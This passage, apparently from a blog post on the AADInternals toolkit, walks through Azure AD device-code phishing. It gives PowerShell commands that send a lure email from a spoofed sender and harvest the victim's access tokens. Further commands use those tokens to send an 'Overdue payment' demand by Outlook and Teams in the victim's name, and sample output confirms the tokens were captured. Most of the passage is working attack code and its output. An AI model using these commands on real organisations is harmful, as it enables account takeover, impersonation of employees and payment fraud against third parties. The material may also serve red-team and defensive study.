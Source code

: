Default message in Teams:<br>
![Phishing message](/images/posts/phishing_12.png)

## Email

The following example sends a phishing email using a customised message. The tokens are saved to the cache.
{{< highlight powershell >}}
# Create a custom message
$message = '<html>Hi!<br/>Here is the link to the <a href="{1}">document</a>. Use the following code to access: <b>{0}</b>.</html>'

# Send a phishing email to recipients using a customised message and save the tokens to cache
Invoke-AADPhishing -Recipients "wvictim@company.com","wvictim2@company.com" -Subject "Johnny shared a document with you" -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache 
{{< /highlight>}}

```
Code: CKDZ2BURF
Mail sent to: wvictim@company.com
...
Received access token for william.victim@company.com
```
And now we can send email as the victim using the cached token.
{{< highlight powershell >}}
# Send email as the victim
Send-AADIntOutlookMessage -Recipient "another.wictim@target.org" -Subject "Overdue payment" -Message "Pay this <h2>asap!</h2>"
{{< /highlight>}}

We can also send a Teams message to make the payment request more urgent:
{{< highlight powershell >}}
# Send Teams message as the victim
Send-AADIntTeamsMessage -Recipients "another.wictim@target.org" -Message "Just sent you an email about due payment. Have a look at it."
{{< /highlight>}}
```
Sent                MessageID         
----                ---------         
16/10/2020 14.40.23 132473328207053858
```

**The following video shows how to use AADInternals for email phishing.**

<iframe width="560" height="315" src="https://www.youtube.com/embed/Yz4zjD3EUUg" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
